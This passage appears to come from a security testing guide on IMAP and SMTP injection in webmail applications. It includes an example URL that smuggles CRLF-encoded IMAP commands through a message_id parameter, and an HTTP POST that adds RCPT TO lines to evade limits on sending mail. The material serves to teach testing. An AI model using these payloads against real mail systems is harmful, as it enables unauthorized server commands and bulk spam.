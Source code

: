Suppose that the webpage "read_email.php", responsible for showing the associated message, transmits 
the request to the IMAP server without performing any validation over the value <number> given by the user. 
The command sent to the mail server would look like this:


FETCH <number> BODY[HEADER]

 
In this context, a malicious user could try to conduct IMAP Injection attacks through the parameter "message_id" 
used by the application to communicate with the mail server. For example, the IMAP command 
"CAPABILITY" could be injected using the next sequence:

>http://<webmail>/read_email.php?message_id=1 BODY[HEADER]%0d%0aV001 CAPABILITY%0d%0aV002 FETCH 1

This would produce the next sequence on IMAP commands in the server:

???? FETCH 1 BODY[HEADER]
V001 CAPABILITY
V002 FETCH 1 BODY[HEADER]

where:

Header = 1 BODY[HEADER]
Body   = %0d%0aV100 CAPABILITY%0d%0a
Footer = V101 FETCH 1

 

#SMTP Injection

Since command injection is performed over the SMTP server, the format and specifications of this protocol must 
adhere to this protocol. 

Due to the limited operations permitted by the application using the SMTP protocol, we are basically limited to sending e-mail. 
The use of SMTP Injection requires that the user be authenticated previously, 
so it is necessary that the attacker have a valid webmail account.

Let's look at an example for evading the limit of maximum emails that are allowed to be sent.

Suppose a webmail application restricts the number of emails sent in a chosen time period. 
SMTP Injection would allow evasion of this restriction simply by adding as many RCPT commands as 
destinations that the attacker wants:

 

  POST http://<webmail>/compose.php HTTP/1.1
  -----------------------------134475172700422922879687252
  Content-Disposition: form-data; name="subject"
  Test
  .
  MAIL FROM: external@domain1.com
  RCPT TO: external@domain1.com
  RCPT TO: external@domain2.com
  RCPT TO: external@domain3.com
  RCPT TO: external@domain4.com
  Data
  This is an example of SMTP Injection attack
  .
  -----------------------------134475172700422922879687252
  ...
